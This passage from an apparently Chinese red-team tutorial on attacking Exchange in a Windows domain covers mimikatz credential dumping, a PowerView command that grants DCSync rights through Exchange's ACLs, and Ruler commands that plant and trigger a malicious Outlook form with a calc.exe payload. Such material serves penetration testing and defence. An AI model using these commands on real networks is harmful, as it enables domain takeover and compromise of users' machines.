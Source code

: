 拿到Exchange服务器,有很大概率就是域管直接登录的.或者域管曾经登录过.拿到Exchange服务器权限的时候,可以尝试直接dir下域控的C盘,看有没有权限.如果没有权限,再尝试使用mimikatz抓一波密码，很大概率可以直接抓到域管或者高权限用户.而且就算是高版本的server,在Exchange上也能抓到明文密码.

### <a class="reference-link" name="3.%20Exchange%E7%9A%84ACL"></a>3. Exchange的ACL

所有的Exchange Server 都在`Exchange Windows Permissions`组里面,而这个组默认就对域有WriteACL权限,那么当我们拿下Exchange服务器的时候,就可以尝试使用WriteACL赋予自身Dcsync的权限.

使用powerview，为当前exchange机器名用户增加dcsync权限(此处需要使用dev分枝中的powerview)

```
powershell.exe -exec bypass -Command "&amp; `{`Import-Module .\powerview.ps1; Add-DomainObjectAcl -TargetIdentity ’DC=test,DC=local‘ -PrincipalIdentity exchange2016$ -Rights DCSync -Verbose`}`"
```

由于这个权限,Exchange 的RCE常用以在内网渗透中用来提升到域管权限.

因此在CVE-2019-1040中,除了可以攻击DC,也有人选择攻击Exchange.



## 0x07 攻击 OutLook客户端

前提条件:
1. 需要用户凭据
1. 该用户电脑装了Oulook客户端,用outlook查看邮件的时候触发.
攻击效果

通过Outlook客户端控制用户电脑

有三种方式 Form,ruler,HomePage.

### <a class="reference-link" name="1.%20Form"></a>1. Form

[Ruler](https://github.com/sensepost/ruler)

```
form

ruler_windows_amd64.exe --insecure --url https://MAIL/autodiscover/autodiscover.xml  --email daiker@Liton-Lab.com -u daiker -p 密码 --verbose --debug form display

ruler_windows_amd64.exe --insecure --url https://MAIL/autodiscover/autodiscover.xml  --email daiker@Liton-Lab.com -u daiker -p 密码 --verbose --debug form add --suffix superduper --input C:\Users\tom\Desktop\output\command.txt --rule --send

command.txt 里面的内容是

    CreateObject("Wscript.Shell").Run "calc.exe", 0, False

触发 
ruler_windows_amd64.exe --insecure --url https://MAIL/autodiscover/autodiscover.xml  --email daiker@Liton-Lab.com -u daiker -p 密码 --verbose --debug  form send --target daiker@Liton-Lab.com --suffix superduper --subject "Hi Koos" --body "Hi Koos,\nJust checking in."


删除

ruler_windows_amd64.exe --insecure --url https://MAIL/autodiscover/autodiscover.xml  --email daiker@Liton-Lab.com -u daiker -p 密码 --verbose --debug  form  delete --suffix superduper
```
